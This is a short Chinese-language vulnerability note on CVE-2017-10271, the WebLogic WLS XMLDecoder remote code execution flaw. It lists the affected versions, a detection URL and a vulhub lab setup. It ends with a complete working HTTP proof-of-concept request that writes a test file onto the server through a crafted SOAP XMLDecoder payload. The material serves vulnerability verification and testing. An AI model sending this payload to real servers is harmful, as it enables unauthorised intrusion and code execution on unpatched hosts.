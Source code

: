 # 相关
CVE-2017-10271
- 受影响版本：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0
- 漏洞描述：WebLogic WLS组件中存在CVE-2017-10271远程代码执行漏洞，可以构造请求对运行WebLogic中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。
- 漏洞检测：访问http://host:7001/wls-wsat/CoordinatorPortType返回如下，则可能存在此漏洞
![title](https://i.loli.net/2019/05/20/5ce24e619807844967.jpg)

# 验证环境搭建
使用vulhub的

# POC
通过写入一个文件的形式进行简单验证
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```